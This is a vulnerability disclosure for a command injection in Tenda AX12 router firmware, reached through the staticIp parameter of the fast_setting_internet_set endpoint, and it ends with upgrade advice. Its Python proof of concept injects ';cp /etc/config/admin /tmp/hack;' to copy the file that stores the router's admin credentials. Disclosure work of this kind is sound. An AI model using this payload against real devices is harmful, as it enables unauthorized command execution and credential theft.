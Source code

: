 ## Vulnerability description ##

Equipment: Tenda-AX12

Firmware version: V22.03.01.16_CN([AX12 upgrade software_Tenda official website](https://www.tenda.com.cn/download/detail-3170.html))

Vulnerability Type: Command Injection

Attack effect: execute any command

## Vulnerability description ##

The reason for this vulnerability is that in the provided fast_setting_internet_set interface, the called function sub_42581C does not filter the value of the controllable parameter staticIp passed in by the user, resulting in command injection.

sub_42581C()
![](https://github.com/The-Itach1/IOT-CVE/blob/master/Tenda/AX12/2/image/1.png)

It first obtains the value of the staticIp parameter and assigns it to v4, then calls the sprintf function to format the input to the v5 string, and finally calls doSystemCmd_route to execute the command. In the process, no character filtering is performed on the value of staticIp, which means that we can construct any command through this parameter, and finally enter doSystemCmd_route for execution.

## POC ##

The poc injected by the command, in actual situation, needs to be authenticated first.

```python
import requests

url = "http://192.168.112.131/goform/fast_setting_internet_set"
cmds = ";cp /etc/config/admin /tmp/hack;"


payload = {'wanType': '1', 'staticIp': cmds}
r = requests.post(url, data=payload)
print(r.status_code)
print(r.content)
```

The effect of the attack is as follows. The admin file that saves the userpass in the configuration directory is copied to tmp/hack.
![](https://github.com/The-Itach1/IOT-CVE/blob/master/Tenda/AX12/2/image/2.png)

### Suggest

It is recommended to upgrade the firmware to the latest version, [V22.03.01.21](https://www.tenda.com.cn/download/detail-3237.html).
